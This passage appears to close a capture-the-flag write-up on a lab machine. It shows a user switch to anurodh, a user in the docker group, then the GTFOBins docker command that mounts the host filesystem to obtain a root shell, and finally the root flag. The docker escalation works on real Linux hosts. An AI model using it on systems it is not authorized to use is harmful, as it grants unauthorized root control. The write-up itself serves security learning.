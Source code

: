 ![](/assets/images/25/9.png)

```
apaar@ubuntu:~$ ls /home
anurodh  apaar  aurick
apaar@ubuntu:~$ su anurodh
Password: 
anurodh@ubuntu:/home/apaar$ 
```

The user anurodh is in the docker group, meaning they have privileges to run docker, we can use docker to spawn an interactive root shell:
```
anurodh@ubuntu:~$ id -a
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

From GTFO bins entry for docker:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Getting root:
```
anurodh@ubuntu:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

Root Flag:
```
# cd /root
# ls
proof.txt
# cat proof.txt

{ROOT-FLAG: w18g_i_dont_want_to_get_in_trouble}

Congratulations! You have successfully completed the challenge.
```
FIN. 🥳
